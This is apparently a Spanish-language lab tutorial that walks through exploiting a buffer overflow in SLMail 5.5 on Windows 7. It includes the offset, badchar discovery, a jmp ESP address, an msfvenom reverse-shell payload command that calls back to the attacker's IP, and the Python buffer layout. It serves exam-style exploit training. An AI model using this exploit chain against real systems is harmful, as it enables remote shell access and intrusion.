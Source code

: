 # Buffer Overflow SLMail 5.5

Tutorial de buffer overflow en Windows de 32 bits con el programa SLMail 5.5. Se hace uso de maquinas virtuales, una máquina con Parrot OS (máquina atacante) y otra con Windows 7 (máquina víctima).

Nota: El tutorial toma como base el video [¿Cómo explotar el Buffer Overflow del OSCP con éxito?](https://www.youtube.com/watch?v=sdZ8aE7yxMk)

Con pattern_create se genera un patron de carácteres 

```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700 ```

![pattern](./img/buffer_pattern.png)

En la máquina victima con Immunity Debugger (ejecutar como administrador) nos sincronizamos con SLMail, se pausará el programa darle al botón de play para que se reanude el flujo del programa

![attach](./img/attach.png)

Ejecutar el script en la máquina de atacante. En Immunity Debugger se pausará automaticamente el flujo de programa, en el campo EIP se muestra un dirección la cual sirve para determinar el offset para controlar el EIP.

![image](./img/eip_offset.png)  

Con ``` pattern_offset -q dirección ``` se determina el offset

![offset](./img/pattern_offset.png)

En este caso el offset es de 2607. 

Ahora se determina los badchars (carácteres que el programa no puede interpretar) con la utildad mona.py se facilita esta tarea. Para ello se debe copiar en ``` C:\Program Files\Immunity Inc\Immunity Debugger\Libs ```

Con el comando ``` !mona config -set workingfolder C:\Users\Usuario\Desktop\%p ``` se crea un directorio de trabajo 

![moona_folder](./img/set_working_folder.png)

con ``` !mona bytearray ``` se generan dos archivo, uno de ellos llamado bytearray.txt, que contiene los carácteres imprimibles. Para transferir el archivo de una maquina otra, desde la maquina atacante usar un servidor samba y con la maquina victima en cmd con el copy 

Maquina atacante

![smb_server](./img/smb_server.png)

Maquina victima

``` copy RutaDelArchivo \\IPmaquinaatacante\smbFolder\ ```

![smb_copy](./img/smb_copy.png)

![code_badchars](./img/badchars.png)

Ejecutar el script y desde Immunity Debugger en el EIP se tiene una dirección, se ejecuta 
``` !mona compare -f C:\Users\Users\Desktop\SLMail\bytearray.bin -a direccion ``` para obtener un badchar)

![](./img/badchar_compare.png)


Con el comando ``` !mona bytearray -cpb "\x00\x0a" ``` se genera de nuevo los archivosc de bytearray sin los badchars especificados. Esto se  hace hasta que ya no aparezca ninguno

Una vez obtenidos los badchars ahora se crea un shell code que los omita

``` 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.249.128 LPORT=443 -a x86 --platform windows -b "\x00\x0a\0xd" -e x86/shikata_ga_nai -f c
```

![sheell_code](./img/shell_code.png)


Para que se logre interpretar el shell code se debe dar un salto al ESP se busca la dirección a jmp ESP. Nasm_shell nos ayuda a obtener las direcciónes de instrucciones a bajo nivel en este caso la de jmp ESP.

```/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb```

![jmp_ESP](./img/jmp_esp.png)

Con ```!mona modules ``` se muestran los módulos de SLMail, se busca alguno que tenga Rebase, Safe, ASLR, NXCompat en "False". Se escoge SLMFC.dll
![mona_modules](./img/mona_modules.png)

![module_target](/img/module_target.png)


Se busca la dirección de jmp ESP en el módulo con

```
!mona find -s "\xff\xe4" -m SLMFC.DLL
```

![find_jmp](./img/find_jump_esp.png)

Se comprueba que la dirreción apunte a jmp ESP

![check_dir](./img/find_jump_esp_dir.png)

En el script de python se añade la dirección de jmp ESP pero al ser 32 bits se debe de estar en Little Endian. Para convertir a Little Endian se separa la dirección en pares y se inverte el orden ```5f4a358f ->  8f354a5f ```

Y finalmente se añade NOPs ```\x90``` al payload y se ejecuta el script para obtener una reverse shell

```
    offset = b"A"*2607
    eip = b"\x8f\x35\x4a\x5f" #0x5f4a358f
    buffer = offset + eip  + b"\x90"*16 + shell_code
```

![reverse_shell](./img/reverse_shell.png)



